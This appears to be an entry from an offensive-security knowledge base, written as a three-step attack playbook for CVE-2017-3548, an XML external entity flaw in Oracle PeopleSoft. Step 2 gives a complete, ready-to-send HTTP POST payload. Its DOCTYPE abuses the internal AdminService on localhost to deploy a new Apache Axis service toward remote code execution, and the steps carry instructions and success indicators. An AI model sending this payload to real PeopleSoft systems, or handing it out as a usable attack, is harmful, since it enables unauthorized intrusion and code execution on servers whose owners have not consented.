

---
tags:
  - xxe
  - peoplesoft
  - oracle
  - apache-axis
  - rce
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/peoplesoft-xxe-payload-post]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Exploit-XXE-in-PeopleSoft-to-Deploy-Service]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploiting an XXE vulnerability in Oracle PeopleSoft to access internal
  services and deploy a new Apache Axis service, leading to potential remote
  code execution.
skill_level: intermediate
impact_level: high
id: 2de900ab-3699-4c95-9081-a9a97b879bd5
created_at: '2025-12-13T09:00:27.411Z'
updated_at: '2025-12-13T09:00:27.411Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation in Oracle PeopleSoft to Deploy Apache Axis Service

## Overview

This attack chain demonstrates the exploitation of an XML External Entity (XXE) vulnerability in Oracle PeopleSoft (CVE-2017-3548) on the endpoint /PSIGW/PeopleSoftServiceListeningConnector. The attacker sends a crafted XML payload that references an internal service on localhost port 80, allowing the creation of a new Apache Axis service. This provides potential for remote code execution and internal network access, as shown by successfully deploying a test service without dropping a shell.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specified

### Target Environment

- Web platform with Oracle PeopleSoft and Apache Axis
- Open ports: 80
- Services: PeopleSoftServiceListeningConnector, AdminService

### Initial Access Requirements

- Network access to the target endpoint /PSIGW/PeopleSoftServiceListeningConnector
- No credentials required for the initial exploit

## Detailed Attack Procedures

### Step 1: Identify Internal Accessibility
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-to-Deploy-Service]]

**Objective**: Determine that the PeopleSoft instance is accessible on localhost port 80 for potential XXE exploitation.

**Instructions**: Identify internal accessibility to /pspc/services/AdminService. This step involves reconnaissance to confirm the internal service exposure without specific commands.

**Expected Output**: Confirmation of internal service availability on localhost:80.

**Success Indicators**:
- Internal endpoint /pspc/services/AdminService is reachable via XXE.
- No errors in accessibility checks.

### Step 2: Send Crafted XXE Payload
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-to-Deploy-Service]]

**Objective**: Exploit the XXE vulnerability by sending a POST request with a crafted XML payload to create a new Apache Axis service.

**Instructions**: Use [[commands/peoplesoft-xxe-payload-post]] to send the exploit payload:

```bash
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: ████████
Content-Type: application/xml
Content-Length: 608

<!DOCTYPE a PUBLIC "-//B/A/EN" "http://localhost:80/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22h1testservice%22+provider%3D%22java%3ARPC%22%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22org.apache.pluto.portalImpl.Deploy%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3C%2Fns1%3Adeployment">
```

**Expected Output**: Server processes the XXE payload and deploys the new service.

**Success Indicators**:
- Payload sent without rejection.
- New service creation initiated.

### Step 3: Verify Service Creation
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-to-Deploy-Service]]

**Objective**: Confirm the successful creation of the new service by checking the response.

**Instructions**: Observe the server response, which should include the URL of the newly created service, such as https://██████████/pspc/services/h1testservice.

**Expected Output**: Response confirming service creation with the new URL.

**Success Indicators**:
- Response includes the new service URL.
- Service is accessible at the provided endpoint.

## Attack Chain Summary

### Key Achievements

1. Identified internal service accessibility via XXE.
2. Deployed a new Apache Axis service using crafted payload.
3. Confirmed potential for RCE and internal access.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
